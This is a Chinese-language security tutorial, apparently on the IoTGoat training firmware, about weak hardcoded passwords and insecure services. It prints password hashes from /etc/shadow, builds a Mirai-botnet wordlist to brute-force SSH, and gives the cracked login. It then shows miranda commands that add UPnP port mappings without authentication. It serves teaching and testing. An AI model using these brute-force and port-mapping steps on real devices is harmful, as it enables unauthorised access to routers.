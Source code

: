 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/vHPFYp5_Fjwg2Ewf7Z6KLA)

    继续接着上一章，本章节主要从弱、可猜测或硬编码的密码和不安全的网络服务入手。

**1. 弱、可猜测或硬编码的密码**  

查看固件中用户密码文件 / etc/shadow

```
root:$1$Jl7H1VOG$Wgw2F/C.nLNTC.4pwDa4H1:18145:0:99999:7:::
daemon:*:0:0:99999:7:::
ftp:*:0:0:99999:7:::
network:*:0:0:99999:7:::
nobody:*:0:0:99999:7:::
dnsmasq:x:0:0:99999:7:::
dnsmasq:x:0:0:99999:7:::
iotgoatuser:$1$79bz0K8z$Ii6Q/if83F1QodGmkb4Ah.:18145:0:99999:7:::
```

加密密码格式 **$id$salt$encrypted**

id 为 1 时，采用 md5 进行加密；

id 为 5 时，采用 SHA256 进行加密；

id 为 6 时，采用 SHA512 进行加密；

该固件使用的加密方式为 md5 加密；

**可以采用暴力破解方式获取默认凭证；**

查找网上暴力破解字典

```
$ git clone git://github.com/danielmiessler/SecLists.git
$ cd Malware
$ awk '{print $2}' mirai-botnet.txt > /home/iot/Desktop/password.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQXCad3m4oKv1b79YMBYwWEyvJMIS5T4ZfvlJrQFRuYXic2Q7RYqmiaTnJkwHiac7vNAdwZL6LszlgeA/640?wx_fmt=png)

**2.  不安全的网络服务**

快速端口扫描 (速度较快，但不一定准确)

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQXCad3m4oKv1b79YMBYwWEQsUrB3BzBw280wu4ibcANTbka2WJavXtYtmMzeS2OmeW6LictUFKyHvQ/640?wx_fmt=png)

22 端口 根据暴力破解得到的密码进行登录

53 端口 dnsmasq 安全漏洞

5000 端口 upnp 允许未经授权的设备修改网络配置

###  **① SSH 服务**

使用僵尸网络字典暴力破解

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQXCad3m4oKv1b79YMBYwWEyvJMIS5T4ZfvlJrQFRuYXic2Q7RYqmiaTnJkwHiac7vNAdwZL6LszlgeA/640?wx_fmt=png)

获取用户密码 (iotgoatuser/7ujMko0vizxv)  

###  **② MiniUPnPd 服务**

扫描 upnp 详细信息

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQXCad3m4oKv1b79YMBYwWE4fFWsPOW5ibuAz7WWFDcBIeHwbY25qXicgt3LeVRlE7ZpIbia215h5uZg/640?wx_fmt=png)

https://zhuanlan.zhihu.com/p/51562785 攻击利用方式详细介绍

UPnP 由于设计上的缺陷而产生的漏洞，这些其中大多数漏洞是由于服务配置错误或实施不当造成的

**2.1  获得 SCPD(服务控制协议文档)**

查看开启了那些服务

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQXCad3m4oKv1b79YMBYwWESTCULoqVxVDFWmd9kxVibLd8aXdVKbXlA3e1FH8lexXtibu9vDVxJVEg/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQXCad3m4oKv1b79YMBYwWEI8TDORWPxD1iaAmQiaJD4q8jUckkrgbOPk77Sxn9CvYibgCWzD1TEryiaQ/640?wx_fmt=png)

开启服务汇总

```
<serviceType>urn:schemas-upnp-org:service:Layer3Forwarding:1</serviceType>
<serviceId>urn:upnp-org:serviceId:L3Forwarding1</serviceId>
<SCPDURL>/L3F.xml</SCPDURL>
<controlURL>/ctl/L3F</controlURL>
<eventSubURL>/evt/L3F</eventSubURL>

<serviceType>urn:schemas-upnp-org:service:DeviceProtection:1</serviceType>
<serviceId>urn:upnp-org:serviceId:DeviceProtection1</serviceId>
<SCPDURL>/DP.xml</SCPDURL>
<controlURL>/ctl/DP</controlURL>
<eventSubURL>/evt/DP</eventSubURL>

<serviceType>urn:schemas-upnp-org:service:WANCommonInterfaceConfig:1</serviceType>
<serviceId>urn:upnp-org:serviceId:WANCommonIFC1</serviceId>
<SCPDURL>/WANCfg.xml</SCPDURL>
<controlURL>/ctl/CmnIfCfg</controlURL>
<eventSubURL>/evt/CmnIfCfg</eventSubURL>

<serviceType>urn:schemas-upnp-org:service:WANIPConnection:2</serviceType>
<serviceId>urn:upnp-org:serviceId:WANIPConn1</serviceId>
<SCPDURL>/WANIPCn.xml</SCPDURL>
<controlURL>/ctl/IPConn</controlURL>
<eventSubURL>/evt/IPConn</eventSubURL>

<serviceType>urn:schemas-upnp-org:service:WANIPv6FirewallControl:1</serviceType>
<serviceId>urn:upnp-org:serviceId:WANIPv6Firewall1</serviceId>
<SCPDURL>/WANIP6FC.xml</SCPDURL>
<controlURL>/ctl/IP6FCtl</controlURL>
<eventSubURL>/evt/IP6FCtl</eventSubURL
```

    xml 还包含 ControlURL，这是与该特定服务进行通信的 SOAP 端点（实质上，该 URL 的 GET / POST 将触发操作）。

 **SOAP**

    控制消息使用 SOAP 协议，也以 xml 表示，看起来和 RPC 类似（但没有任何身份验证）, 即通告 SOAP 来实现服务操作。

#### **2.2 SOAP 控制**

    浏览器直接访问控制 URL，出现如下报错

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQXCad3m4oKv1b79YMBYwWEJyXzuXA8lYZPsdG50HXcibedHkCUEkvRjZOcTJXdh60ZuFQiabDOLyMQ/640?wx_fmt=png)

    查看具体 action 和对应参数 (以 DP.xml)

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQXCad3m4oKv1b79YMBYwWEgen9JuCeDjv5vvJguYPXKNvnDVL0jY7xrWPWBZ5c2PkJ9nFQHaNCtQ/640?wx_fmt=png)

    工具 miranda

 **路由器 80 端口的服务映射到外网端口 8080 上**

```
upnp> host send 0 WANConnectionDevice WANIPConnection AddPortMapping
```

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQXCad3m4oKv1b79YMBYwWEHG3kAIQYuBXJPbaibyVicWfX8aFw3OYXlLAg0waPicGCFGufBEmVa0fAQ/640?wx_fmt=png)

 **获取端口映射目录**

```
upnp> host send 0 WANConnectionDevice WANIPConnection GetSpecificPortMappingEntry
```

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQXCad3m4oKv1b79YMBYwWElYDOTruuI6ic1qEGYVuMP3I7zib6EiatU0jOza5EvAsXRl6P9BXr5ExYA/640?wx_fmt=png)

    无需认证就可以完成上述操作

 **查看网页端口是否添加成功以及是否映射成功**

*   是否添加成功
    

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQXCad3m4oKv1b79YMBYwWEOogwCd1xcEA0daYDc8MibyOuqk6emPz2hrHd25JFT59KaOvAao0QFKg/640?wx_fmt=png)

*   是否映射成功
    

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQXCad3m4oKv1b79YMBYwWE9KW2MwzusKBwjyOUIMvVicnATKLVPKckmrx1Z9NXIvT0FdOwNBSt27Q/640?wx_fmt=png)

其余的控制 URL，大家可以自己去尝试，看会发生什么样的结果。

**总结**

1.  脆弱的 miniupnp 配置允许未经授权的设备修改网络配置，例如防火墙规则、端口映射。

2.  启动时侦听的传统网络服务。

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTqMVczDE3GyGU1hPA7RQQlIESOibcZaWMeJVMicz1JUKnoSKhomypNO0J7q4BAxqjgxmpWYYe17ia2A/640?wx_fmt=png)

如果您有意向加入我们，请留言: )，

或邮件投递简历：akast@hillstonenet.com